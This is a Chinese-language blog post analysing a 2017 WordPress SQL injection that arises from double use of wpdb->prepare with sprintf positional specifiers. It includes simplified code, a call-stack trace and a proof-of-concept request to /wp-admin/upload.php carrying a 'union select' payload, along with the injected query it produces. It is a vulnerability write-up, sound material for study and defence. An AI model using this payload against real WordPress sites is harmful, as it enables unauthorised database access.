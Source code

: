 ```yaml
---
id: 774
layout: post
title: '重复 prepare 带来的 WordPress 注入漏洞分析'
date: 2017-08-30 03:09:07
author: virusdefender
tags: 安全
---
```


原文比较乱，重新整理和总结了一下
 
 https://medium.com/websec/wordpress-sqli-bbb2afcc8e94  
 https://medium.com/websec/wordpress-sqli-poc-f1827c20bf8e
 
## sprintf 函数

两个例子

 - 可以使用 `%n$` 取到第 n 个参数

```php
echo sprintf('The %2$s contains %1$d monkeys', 100, "zoo");
```

输出 `The zoo contains 100 monkeys`

 - `%n$` 后面可以加入 padding 的指示符，使用 `'`开头

> An optional padding specifier that says what character will be used for padding the results to the right string size. This may be a space character or a 0 (zero character). The default is to pad with spaces. An alternate padding character can be specified by prefixing it with a single quote ('). 

```php
echo sprintf('The %2$s contains %1$\'#10d monkeys', 100, "zoo");
```
输出 `The zoo contains #######100 monkeys`

## prepare 函数

[原始代码](https://github.com/WordPress/WordPress/blob/820d3973a33d60ce710bfd5b2f5a0b40c37ca785/wp-includes/wp-db.php#L1228)

下面是一个精简版的

```php
class wpdb {
  function _real_escape( $string ) {
    return addslashes( $string );
  }

  public function escape_by_ref( &$string ) {
    if ( ! is_float( $string ) )
      $string = $this->_real_escape( $string );
  }

  public function prepare( $query, $args ) {
    $args = func_get_args();
    array_shift( $args );
    // If args were passed as an array (as in vsprintf), move them up
    if ( isset( $args[0] ) && is_array($args[0]) ) {
      $args = $args[0];
    }
    // in case someone mistakenly already singlequoted it
    $query = str_replace( "'%s'", '%s', $query ); 
    // doublequote unquoting
    $query = str_replace( '"%s"', '%s', $query ); 
    // quote the strings, avoiding escaped strings like %%s
    $query = preg_replace( '|(?<!%)%s|', "'%s'", $query );
    array_walk( $args, array( $this, 'escape_by_ref' ) );
    var_dump("query: ".$query);
    return @vsprintf( $query, $args );
  }
}
```

prepare 函数的作用

 - 整理函数参数，`$args` 为 array
 - 将 `$args` 中的 `'%s'` 和 `"%s"` 的单双引号去掉
 - 将 `$args` 中的 `%s` 变为 `'%s'`
 - `addslashes` `$args` 中的参数

## 函数调用栈

在 [upload.php](https://github.com/WordPress/WordPress/blob/master/wp-admin/upload.php#L163) 调用了 [wp_delete_attachment( $post_id_del )](https://github.com/WordPress/WordPress/blob/9891448a421f495e3745356bab88ec985a0e64b8/wp-includes/post.php#L4864)

`wp_delete_attachment` 中，`$post_id` 是用户可以完全控制的参数，来自 `$post_ids = $_REQUEST['media']`，然后循环执行下面的逻辑

```php
if ( !$post = $wpdb->get_row( $wpdb->prepare("SELECT * FROM $wpdb->posts WHERE ID = %d", $post_id) ) )
    return $post;
```

这里有第一个检查，但是因为是 `%d`，虽然 `$post_id` 不是数字，但是如果是数字开头还是可以被转换为了数字的，可以绕过。

然后调用了 [delete_metadata( 'post', null, '_thumbnail_id', $post_id, true )](https://github.com/WordPress/WordPress/blob/3ecfb4b222e55b8e064c1b56b7b7030bc4fc940d/wp-includes/meta.php#L307)

有第二个检查，无法绕过，必须要插入数据，否则就 `return false`了。而且 `meta_value` 是 payload，这也是原文中要使用  XML-RPC 的原因

这里 `$meta_value` 就是上面的 `$post_id`

```php
$query = $wpdb->prepare( "SELECT $id_column FROM $table WHERE meta_key = %s", $meta_key );
if ( !$delete_all )
  $query .= $wpdb->prepare(" AND $type_column = %d", $object_id );
if ( '' !== $meta_value && null !== $meta_value && false !== $meta_value )
  $query .= $wpdb->prepare(" AND meta_value = %s", $meta_value );
$meta_ids = $wpdb->get_col( $query );
if ( !count( $meta_ids ) )
  return false;
```

接下来的流程直接带入 POC 了

```php
$obj= new wpdb;
// 用户可以完全控制的参数
$meta_value = "%1$%s and PAYLOAD";
$value_clause = $obj->prepare(" and meta_value = %s", $meta_value);
$sql = "select * from table where meta_key=%s $value_clause";
var_dump($sql);
// value_clause 被 prepare 了两遍
var_dump($obj->prepare($sql, "***"));
```

的结果是

```php
// 将 %s 放入单引号内，准备 sprintf
string(29) "query:  and meta_value = '%s'"
// %s 被替换为 %1$%s and PAYLOAD
string(75) "select * from table where meta_key=%s  and meta_value = '%1$%s and PAYLOAD'"
// 再次 prepare，%s 被放入单引号内
string(86) "query: select * from table where meta_key='%s'  and meta_value = '%1$'%s' and PAYLOAD'"
// 第一个 %s 变成 ***，%1$ 变为 ***，'%s 不需要 padding 就消失了
string(77) "select * from table where meta_key='***'  and meta_value = '***' and PAYLOAD'"
```

还可以这样测试下

```php
var_dump(sprintf('select * from table where meta_key=\'%s\'  and meta_value = \'5 %1$\'%10s\' and PAYLOAD\'', "***"));
```

的输出是

```php
string(86) "select * from table where meta_key='***'  and meta_value = '5 %%%%%%%***' and PAYLOAD'"
```

POC 是 `/wp-admin/upload.php?_wpnonce=e3280c0238&action=delete&media[]=28 %1$%s union select version() # `

```php
string(128) "SELECT post_id FROM wp_postmeta WHERE meta_key = '_thumbnail_id'  AND meta_value = '28 _thumbnail_id' union select version() # '"
array(1) {
  [0]=>
  string(6) "5.7.19"
}
```


## 总结

 - 这个漏洞很难利用，但是其他位置或者插件可能也有类似的问题，比如 https://blog.sucuri.net/2017/02/sql-injection-vulnerability-nextgen-gallery-wordpress.html
 - 其他框架也可能有类似的问题

